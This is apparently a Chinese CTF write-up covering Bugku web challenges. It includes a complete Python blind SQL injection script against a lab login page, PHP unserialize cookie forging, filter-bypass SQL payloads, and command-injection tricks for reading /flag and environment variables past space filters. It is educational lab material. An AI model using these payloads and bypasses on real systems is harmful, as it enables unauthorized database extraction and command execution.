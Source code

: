 ```
<body>
<br>
<div class="container" align="center">
  <form method="POST" action="#">
    <p><input name="user" type="text" placeholder="Username"></p>
    <p><input name="password" type="password" placeholder="Password"></p>
    <p><input value="Login" type="button"/></p>
  </form>
</div>
</body>
</html>

<?php
}
?>
```
这里的关键点是`unserialize($cookie) === "$KEY"`，利用在线PHP，`$a=serialize('ctf.bugku.com')`，得到`s:13:"ctf.bugku.com";`，在bp里添加cookie，得到flag。

#### Web 36
提示： !,!=,=,+,-,^,%
      全都过滤了绝望吗？

* 解题思路：先跑bp看看关键词屏蔽情况，or和空格过滤了，--也过滤了，替代or的||也未曾幸免,()没有过滤。参考提示，!,!=,=,+,-,^,% （构造的url转码注入）没有被过滤，那么用+替代空格，利用！=构造用户名注入，`amdin'+‘1’！=‘2`，返回`password error`，也就是说这个绕过成功但没有注释掉密码。
这里照抄WP的盲注：ref https://wxt123.top/2021/01/22/Bugku%20Web%E6%80%BB%E7%BB%93(%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0ing)/#Web-36
```
# -*- coding: utf-8 -*-
import requests

session = requests.Session()
url="http://114.67.246.176:12012/login.php"
flag=''
for i in range(1,250):
        left=32
        right=128
        mid=(left+right)//2
        while(left<right):
                payload="admin'^((ascii(mid((select(group_concat(passwd)))from(%s)))>%s))^'1"%(i,mid)
                data = {'uname': payload, 'passwd': 'admin'}
                res = requests.post(url, data=data)
                if 'password' in res.text:
                        left=mid+1
                else:
                        right=mid
                mid=(left+right)//2
        if(mid==32 or mid==127):
                break
        flag=flag+chr(mid)
        print(flag)
```
进去之后是个命令执行框，这里要怒翻文件包含里记下的笔记，利用<代替空格，cat</flag，（加.php会被过滤）
再记几个可以用的方式：
    * env :用于输出系统环境变量，这道题中系统环境变量中有flag；
    * {echo,$FLAG}：也是输出系统环境变量，但是只输出$FLAG一个变量
    * {cat,/flag}：绕过空格限制，读取根目录下flag文件；
    * cat</flag：绕过空格限制，
    * cat<>/flag：绕过空格限制；
    * `a=$‘\x20/flag’&&cat$a`：\x20转换为字符串就是空格;
再做个关于fuzz后台登录密码的注入笔记：
    * 判断密码长度：uname=admin'^(length(passwd)=32)^'，逐一递增，并根据32位猜测密码为MD5。
    * 判断密码每一位字符：uname=admin'^(ascii(substr((passwd)from(1))=52)^'